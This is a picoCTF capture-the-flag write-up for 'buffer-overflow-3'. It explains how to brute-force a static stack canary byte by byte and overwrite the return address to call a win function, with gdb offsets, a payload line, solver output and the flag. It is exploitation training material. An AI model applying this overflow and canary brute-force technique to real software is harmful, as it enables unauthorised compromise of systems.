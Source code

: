 # buffer-overflow-3

ret2win w/ Canary Brute-forcing

## checksec

```bash
[*] '/mnt/d/CTFs/picoCTF/Pwn/buffer-overflow-3/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

No PIE, so the address of `win` does not change per runtime. 

## Concept

The concept is to brute-force the canary character-by-character so that we can overwrite the return address of `vuln` without the program aborting due to canary overwrite detection. 

### Why can we brute-force the canary?

Since the canary is always loaded from a file, we know that at least for that challenge instance, the canary should stay constant between runtimes. We can therefore brute-force the canary. 

As the canary can be [brute-forced character-by-character](#brute-forcing-the-canary-character-by-character), the search space is not `2**32`, but rather `(2**8) * 4 = 1024` which is pretty reasonable. 

## Overview of Binary

In `vuln`, we can input the number of bytes we want to write in, before input the desired bytes to be written onto the stack (see code below)

```c
void vuln(){

    ...

    printf("How Many Bytes will You Write Into the Buffer?\n> ");
    while (x<BUFSIZE) {
        read(0,length+x,1);
        if (length[x]=='\n') break;
        x++;
    }
    sscanf(length,"%d",&count);

    printf("Input> ");
    read(0,buf,count);

    if (memcmp(canary,global_canary,CANARY_SIZE)) {
        printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
        fflush(stdout);
        exit(0);
    }

    ...

}
```

The only issue is that `canary` will be overwritten, and when compared with `global_canary` which is not in that stack frame, will result detect the stack smashing and abort the program. 

## Brute-forcing the Canary character-by-character

We need not brute-force the entire canary at once, since we can always only overwrite the first n byte of the 4-byte canary. 

Using gdb, we see that the canary occurs at `[ebp-0x10]`, and our input is written into `buf` at `[ebp-0x50]`. Our guess can thus (iteratively) be 

```python
b'A'*64 + canary + canary_byte_guess_byte
```

where `canary` is the concatenated byte string of the correctly-guessed bytes, while `canary_byte_guess_byte` is the byte currently being guessed. See the [solve script](./solve.py) for the specific implementation. 

## Final Payload

Since the return address occurs at `[ebp+0x4]`, our final payload is

```python
b'A'*64 + p32(canary) + b'A'*16 + p32(exe.symbols.win)
```

## Flag

```
Progress: len(canary)=0, hex(canary_byte_guess_int)='0x41'/0xff
canary=b'B'
Progress: len(canary)=1, hex(canary_byte_guess_int)='0x68'/0xff
canary=b'Bi'
Progress: len(canary)=2, hex(canary_byte_guess_int)='0x51'/0xff
canary=b'BiR'
Progress: len(canary)=3, hex(canary_byte_guess_int)='0x63'/0xff
canary=b'BiRd'
b"picoCTF{Stat1C_c4n4r13s_4R3_b4D_fba9d49b}"
```
